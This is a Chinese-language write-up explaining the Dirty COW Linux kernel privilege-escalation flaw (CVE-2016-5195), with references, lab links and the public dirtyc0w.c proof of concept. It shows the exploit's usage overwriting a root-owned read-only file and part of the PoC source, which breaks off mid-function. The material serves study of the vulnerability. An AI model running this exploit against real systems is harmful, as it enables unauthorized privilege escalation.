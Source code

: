 漏洞原理是：控制分配的内存页的写意图标记位在某个时刻会被丢掉，如果这时利用一个线程清空页表，再次进行缺页处理时，则会把Page cache作为该页的物理地址，页表虽然没有标记可写，但是通过write系统调用对/proc/self/mem写入是强制的。写入之后由于Page cache的回写机制，会将修改返回真实文件。

参考：

- [CVE-2016-5195 DirtyCow:Linux内核提权漏洞分析-Atum](http://atum.li/2016/10/25/dirtycow/)
- [从内核角度分析Dirty Cow原理](https://bbs.pediy.com/thread-218797.htm)
- [DirtyCow Linux权限提升漏洞分析](https://blog.csdn.net/bme314/article/details/79504248?utm_source=blogxgwz4)

> 最重要的是两个线程的操作：一个线程调用write(2)写/proc/self/mem，另一个线程调用madvice(MADV_DONTNEED)。由于这两个线程操作的相互竞争，当wirte(2)直接修改基于文件的内存映射时（即使涉及到的文件不允许被攻击者进程写）会产生一个安全问题，最终导致提权。

> 其实具体说可能有点绕，就是foll_write标志在row特性执行后去掉了，但是再次执行时却没有检查页表项的有效性，导致我们可以利用另一个线程清空页表。清空的页表由于没有了foll_write权限要求，再次被分配时就不执行row执行机制，导致原本不应该本写的地址拥有了写的权限。

## 在线实验平台

- [脏牛内核提权漏洞分析 CVE-2016-5195](https://www.ichunqiu.com/experiment/catalog?id=100256)
- [利用Dirty Cow实现Docker逃逸](https://www.ichunqiu.com/experiment/catalog?id=100295)

## PoC代码理解

这漏洞的PoC非常短，用法如下：

```bash
####################### dirtyc0w.c #######################
$ sudo -s
# echo this is not a test > foo
# chmod 0404 foo
$ ls -lah foo
-r-----r-- 1 root root 19 Oct 20 15:23 foo
$ cat foo
this is not a test
$ gcc -pthread dirtyc0w.c -o dirtyc0w
$ ./dirtyc0w foo m00000000000000000
mmap 56123000
madvise 0
procselfmem 1800000000
$ cat foo
m00000000000000000
####################### dirtyc0w.c #######################
```

PoC如下：

```c
#include <stdio.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <string.h>

void *map;
int f;
struct stat st;
char *name;

void *madviseThread(void *arg)
{
  char *str;
  str=(char*)arg;
  int i,c=0;
  for(i=0;i<100000000;i++)
  {
    c+=madvise(map,100,MADV_DONTNEED);
  }
```